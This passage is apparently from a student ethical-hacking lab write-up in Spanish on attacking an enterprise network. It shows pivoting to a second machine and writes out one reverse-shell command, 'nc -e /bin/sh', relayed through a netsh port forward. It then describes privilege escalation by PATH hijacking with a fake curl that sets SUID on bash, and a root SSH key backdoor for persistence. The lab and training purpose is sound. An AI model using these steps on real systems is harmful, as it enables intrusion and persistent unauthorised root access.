![Untitled](https://github.com/IES-Rafael-Alberti/23-24-G1-Ciberseguridad/blob/main/Hacking%20%C3%89tico/Proyecto%2007%3A%20Attacking%20Enterprise%20Networks/img/Untitled%2028.png)

Vemos que estamos ejecutando el comando whoami, y su respuesta que es helios.

Podremos crear una shell inversa cambiando el comando por ***nc -e /bin/sh <IP-Maquina-PC1> 4466*** y con ello, creamos una redirección con netsh en la máquina PC1, la cual reenviara el puerto 4466 a nuestro equipo atacante para obtener la shell:

![Untitled](https://github.com/IES-Rafael-Alberti/23-24-G1-Ciberseguridad/blob/main/Hacking%20%C3%89tico/Proyecto%2007%3A%20Attacking%20Enterprise%20Networks/img/Untitled%2029.png)

Agregamos una regla al firewall para permitir la salida del puerto de la revshell.

![Untitled](https://github.com/IES-Rafael-Alberti/23-24-G1-Ciberseguridad/blob/main/Hacking%20%C3%89tico/Proyecto%2007%3A%20Attacking%20Enterprise%20Networks/img/Untitled%2030.png)

![Untitled](https://github.com/IES-Rafael-Alberti/23-24-G1-Ciberseguridad/blob/main/Hacking%20%C3%89tico/Proyecto%2007%3A%20Attacking%20Enterprise%20Networks/img/Untitled%2031.png)

Podemos comprobar que hemos recibido la shell correctamente y estamos dentro de la máquina PC2.

![Untitled](https://github.com/IES-Rafael-Alberti/23-24-G1-Ciberseguridad/blob/main/Hacking%20%C3%89tico/Proyecto%2007%3A%20Attacking%20Enterprise%20Networks/img/Untitled%2032.png)

Ahora procederemos a la escalada de privilegios, por lo que vamos a buscar que binarios pueden ser ejecutados como root por el usuario helios

![Untitled](https://github.com/IES-Rafael-Alberti/23-24-G1-Ciberseguridad/blob/main/Hacking%20%C3%89tico/Proyecto%2007%3A%20Attacking%20Enterprise%20Networks/img/Untitled%2033.png)

Tras analizar el programa objetivo para la escalada, vemos que puede ejecutar el comando “curl” con este servicio.

![Untitled](https://github.com/IES-Rafael-Alberti/23-24-G1-Ciberseguridad/blob/main/Hacking%20%C3%89tico/Proyecto%2007%3A%20Attacking%20Enterprise%20Networks/img/Untitled%2034.png)

Si creamos un archivo en la carpeta /tpm llamado curl, hacemos que ejecute el siguiente comando para darle privilegios **SUID** a /bin/bash, luego Añadimos /tmp dentro de la variable $PATH asignándole prioridad y llamamos a /opt/statuscheck podemos realizar la escalada de privilegios:

![Untitled](https://github.com/IES-Rafael-Alberti/23-24-G1-Ciberseguridad/blob/main/Hacking%20%C3%89tico/Proyecto%2007%3A%20Attacking%20Enterprise%20Networks/img/Untitled%2035.png)

Ahora vamos a realizar la persistencia en el PC02 mediante clave pública.

Como mediante el escáner de puertos hemos comprobado que tiene el puerto de SSH abierto en el equipo, se ha creado un backdoor en el mismo, para ello vamos a crear un par de claves públicas en nuestro equipo atacante:

![Untitled](https://github.com/IES-Rafael-Alberti/23-24-G1-Ciberseguridad/blob/main/Hacking%20%C3%89tico/Proyecto%2007%3A%20Attacking%20Enterprise%20Networks/img/Untitled%2036.png)

![Untitled](https://github.com/IES-Rafael-Alberti/23-24-G1-Ciberseguridad/blob/main/Hacking%20%C3%89tico/Proyecto%2007%3A%20Attacking%20Enterprise%20Networks/img/Untitled%2037.png)

Esta misma clave vamos a copiarla en la máquina objetivo, en la ruta “/root/.shh/authorized_keys”. Así, siempre tendremos acceso por SSH a la máquina como el usuario root, ya que no disponemos de nano vamos a añadirlo al fichero mediante “echo”:

![Untitled](https://github.com/IES-Rafael-Alberti/23-24-G1-Ciberseguridad/blob/main/Hacking%20%C3%89tico/Proyecto%2007%3A%20Attacking%20Enterprise%20Networks/img/Untitled%2038.png)

![Untitled](https://github.com/IES-Rafael-Alberti/23-24-G1-Ciberseguridad/blob/main/Hacking%20%C3%89tico/Proyecto%2007%3A%20Attacking%20Enterprise%20Networks/img/Untitled%2039.png)
